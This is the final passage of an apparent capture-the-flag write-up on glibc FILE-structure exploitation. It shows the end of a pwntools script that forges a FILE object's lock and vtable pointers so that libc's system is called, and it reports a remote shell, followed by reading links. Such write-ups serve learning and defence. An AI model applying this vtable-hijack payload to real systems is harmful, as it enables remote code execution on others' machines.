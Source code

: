 ```python
payload += 'A' * (72-37)                        # padding
payload += p32(elf.symbols['filename'] + 32)    # file->_lock   vtable->__dummy
payload += p32(elf.symbols['name'] + 72)        # file->vtable  vtable->__dummy2
payload += p32(libc.symbols['system'])          #               vtable->__finish

exit(payload)

r.interactive()
```

Running this gives us a shell on the remote server:

![](5e81ac654304800866d6917d.png)



# Further Reading

These are some resources I found helpful while solving this challenge.

1. [https://elixir.bootlin.com/glibc/glibc-2.23/source](https://elixir.bootlin.com/glibc/glibc-2.23/source)
2. [https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
3. [https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)
